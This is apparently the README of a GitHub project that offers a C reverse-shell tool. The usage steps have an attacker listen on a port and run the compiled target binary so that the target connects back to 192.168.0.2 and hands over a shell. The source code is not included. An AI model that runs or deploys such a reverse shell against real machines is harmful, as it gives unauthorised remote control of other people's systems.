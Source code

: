 # reverseShell
👨‍💻 Script in C which after compiling can be used by an 
**Attacker** 
to gain a shell of
**Target** 
machine.

## Usage
Firstly, you should compile the above C programs. In my case I compiled it using `g++` compiler and gave the output files name as `attacker` and `target` respectively.
### 1. Setup a server and listen for incoming connections.
On your machine setup a server and start listening on a port.

``` 
./attacker 1234
```

### 2. Execute client script and setup a connection to the server
You can do this by simply executing the target compiled file

```
./target 192.168.0.2 1234
```

Now you should have gained a shell on the server machine.

## Demo
![Alt Text](https://github.com/Yashvendra/reverseShell/blob/master/Demo/video-gif.gif)

## License
MIT © y_k_007

## Author
If you liked the project then kindly support it by giving it a star ⭐!

